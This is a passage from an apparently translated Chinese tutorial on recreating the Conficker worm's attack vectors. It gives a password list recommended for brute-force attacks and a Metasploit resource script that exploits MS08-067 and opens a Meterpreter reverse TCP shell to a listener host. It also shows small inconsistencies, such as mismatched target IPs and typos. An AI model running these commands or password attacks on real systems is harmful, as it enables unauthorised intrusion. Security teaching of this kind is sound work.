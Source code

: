 ```
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

虽然很多罪犯传播假的反病毒软件利用了 k985ytv 攻击作为许多的攻击向量之一。km985ytv 成功的攻陷了 11000 台主机中的 2220 台。总的来说，假冒的杀毒软件盗取了超过 43000000 的用户的信用卡信息在 2009 年，并还在持续增长中。这一百多行的代码还不错。在下一节中，我们将创建一个攻击了 200 多个国家 5 百万台主机的攻击向量。

## Conficker 蠕虫，为什么努力总是好的

2008 年下旬，计算机安全专家被一个有趣的改变游戏规则的蠕虫叫醒。Conficker 和 W32DownandUp 蠕虫如此迅速的蔓延，很快就感染了 200 多个国家的 5 百多万台主机。在一些先进(数字签名，有效的加密荷载，另类的传播方案)的辅助攻击中，Conficker 蠕虫非常用心，和 1988 年的 Morris 蠕虫有着相似的攻击向量。在接下来的章节中，我们将重现 Conficker 蠕虫的主要攻击向量。

在常规的感染的基础上，Conficker 利用了两个单独的攻击向量。首先，利用 Windows Server 系统的一个 0day 漏洞。利用这个漏洞，蠕虫能够引起堆栈溢出从而能够执行 Shellcode 并下载一个副本给受到感染的主机。当这种攻击方法失败时，Conficker 蠕虫尝试通过暴力破解默认的网络管理共享(`ADMIN$`)来获取受害人主机的管理权限。

## 密码攻击

在它的攻击中，Conficker 蠕虫利用了一个超过 250 个常用密码的密码列表。Morris 蠕虫曾使用的密码列表有 432 个密码。这两个非常成功的攻击有 11 个共同的密码。建立你自己的攻击列表时，是绝对值得包含这 11 个密码的。

```
aaa
academia
anything
coffee
computer
cookie
oracle
password
secret
super
Unknown 
```

在几次大规模的攻击波中，黑客们发布了很多密码在网络上。而导致这些密码尝试的活动无疑是违法的。这些密码已经被安全专家研究证明是很有趣的。DARPA 计算机网络快速追踪项目管理人， Peiter Zatko 让整个房间的军队高层脸红，当他问到他们是否用两个大写字母，再加上两个特殊符号和两个数字组合来构建他们的密码时。此外，黑客组织 LulzSec 在 2011 年 6 月公布了 26000 个使用的密码和个人信息。在一次有组织的攻击中，这些密码被用来重复攻击同一个人的社交网站。然而，规模最大的攻击是一个新闻和八卦的博客网站泄漏了一百万的用户名和密码。

## 用 Metasploit 攻击 Windows SMB 服务

为了简化我们的攻击，我们将使用 Metasploit 框架，可以从下面的网站下载： [`metasploit.com/download/`](http://metasploit.com/download/) 。Metasploit 是开源的计算机安全项目，在过去的几年里正在得到快速的发展和普及并已经成为很受欢迎的渗透工具包。由传奇人物 HD Moore 倡导并开发的。Metasploit 允许渗透测试人员利用标准化的脚本环境发起数千种不同的渗透测试。发行版包含了 Conficker 蠕虫利用的漏洞，HD Moore 整合了这个渗透测试在 Metasploit 中---`ms08-067_netapi`。

利用 Metasploit 我们可以在攻击时进行交互，它也有能力读取批处理资源文件。Metasploit 按顺序处理，以便执行批处理文件中的命令进行攻击。例如，如果我们想攻击的目标主机为`192.168.13.37`，利用`ms80-067_netapi`渗透测试，并返回给`192.168.77.77`主机上的 7777 端口的一个 TCP Shell。

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.37
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.77.77
set LPORT 7777
exploit –j –z 
```
